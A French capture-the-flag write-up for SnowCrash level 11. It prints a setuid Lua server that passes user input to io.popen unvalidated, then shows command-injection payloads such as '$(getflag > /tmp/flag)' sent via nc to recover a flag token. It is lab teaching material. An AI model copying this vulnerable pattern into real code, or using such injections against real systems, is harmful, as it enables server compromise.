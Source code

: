 # LEVEL 11

### Reconnaissance

En se connectant au level11 on trouve un fichier .lua

```
level11@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
```

On l'a déja vu lors de la reconnaissance de départ avec les connections en attente:
```
[...]
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      3011       12308       -  
[...]
```
**ET** dans la liste des process:
```
[...]
- flag11    1808  0.0  0.0   2892   828 ?        S    10:07   0:00 lua /home/user/level11/level11.lua
[...]
```

Nous n'avons donc pas a lancer le programme etant donné qu'il est déja en ecoute sur le port 5151:
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: test
Erf nope..
```

On va essayer de comprendre ce qu'il attend:
```
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

On a donc un programme qui attend qu'un utilisateur se connecte et donne un mot de passe
Avec quelques recherche sur les vulnératbilités de ce language, la fonction io.popen est dangereuse.

**OS Command Injection**

*OS command injection flaws (CWE-78) allow attackers to run arbitrary commands on the remote server. Because a command injection vulnerability may lead to compromise of the server hosting the web application, it is often considered a very serious flaw. In Lua, this kind of vulnerability occurs, for example, when a developer uses unvalidated user data to run operating system commands via the os.execute() or io.popen() Lua functions.*
*Source:* https://www.syhunt.com/en/index.php?n=Articles.LuaVulnerabilities 

### Exploitation

On va simplement faire une injection de commande :)
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: $(whoami > /tmp/whoami)
Erf nope..
level11@SnowCrash:~$ cat /tmp/whoami
flag11
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: $(getflag > /tmp/flag)
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

